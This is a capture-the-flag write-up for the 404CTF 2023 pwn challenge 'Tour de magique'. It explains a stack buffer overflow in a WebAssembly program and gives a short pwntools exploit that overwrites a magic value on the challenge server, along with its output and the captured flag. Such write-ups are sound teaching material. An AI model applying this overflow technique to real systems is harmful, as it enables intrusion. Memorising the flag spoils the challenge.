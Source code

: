 ```yaml
---
title: CTFs | 404CTF2023 | Tour De Magique
author: Kaiba_404
date: 2023-06-05
categories: [CTFs, 404CTF2023, Tour De Magique]
tags: [CTF, 404CTF2023, pwn]
permalink: /CTFs/404CTF2023/pwn/tourdemagique
---
```



# Tour de magique

![tourde_magie](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/fe2455b8-6f8a-4509-85bc-d5c7b5805864)

We can download the zip file [tour-de-magie.zip](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/tree/main/_posts/CTFs/404CTF2023/pwn/files/tour-de-magie.zip) from the challenge. 


After unzipping the downloaded file, it appears that the files provided are intended for running WebAssembly code. The main code is stored in the `main.c` file. To test the program, we can use the command `wasmtime main.wasm` in the terminal. This command executes the WebAssembly module main.wasm using the wasmtime runtime environment. This way, we can run and observe the behavior of the WebAssembly program.

After analyzing the code, I realize that there is a simple Buffer Overflow (BOF) vulnerability. From this information, I can construct a payload to exploit the vulnerability and retrieve the flag.

Based on the code in `main.c`, the payload can be constructed as follows:

`payload = b'A' * 16 + b'\x55\xda\xba\x50' + b'AAA'`

Here is my exploitation code:

```python
from pwn import *

# p = process(["./wasmtime","main.wasm"])
p = remote("challenges.404ctf.fr",30274)


p.recvuntil(b'magicien ?')
p.sendline(b'A'*16+p32(0x50bada55)+b'AAA')

print(p.recvall().decode())
```

```shell
$ python3 exploit.py 
[+] Opening connection to challenges.404ctf.fr on port 30274: Done
[+] Receiving all data: Done (119B)
[*] Closed connection to challenges.404ctf.fr port 30274

Wow ! Respect ! Quelles paroles enchantantes ! Voilà ta récompense...
404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}
```

**Flag:** `404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}`